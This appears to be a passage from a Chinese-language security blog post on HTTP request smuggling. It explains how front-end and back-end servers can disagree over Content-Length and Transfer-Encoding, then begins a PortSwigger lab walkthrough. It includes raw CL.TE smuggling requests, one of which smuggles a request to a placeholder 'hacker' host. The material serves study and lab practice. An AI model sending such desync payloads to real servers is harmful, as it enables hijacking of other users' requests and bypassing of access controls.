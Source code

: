 

其中的ELB为Front服务器，Netty为Backend服务器，发送如下请求：

```http
POST /getusers HTTP/1.1
Host: www.backend.com
Content-Length: 64
Transfer-Encoding : chunked

0

GET /hacker HTTP/1.1
Host: www.hacker.com
hacker: hacker
```

ELB服务器会将Transfer-Encoding字段丢弃，因为其不符合RFC规范，继续使用CL，将上述扔给Netty，Netty优先TE解析，也就是说会当做两个请求，故而造成http请求走私，

## CL-TE

接下来的几个实验都是使用`@portswigger`提供的Lab ：[HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)

开始前记得把burp的CL更新关掉

![image-20221005190051100](2022-10-HTTP/image-20221005190051100.png)

[Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。 前端服务器拒绝不使用 GET 或 POST 方法的请求。
>
>   解决实验室，偷偷向后端服务器发送一个请求，让后端服务器处理的下一个请求出现使用GPOST方法。

```http
POST / HTTP/1.1
Host: 0a5f0013044e0a8dc0c33f2c00850080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Transfer-Encoding: chunked

0

G
```
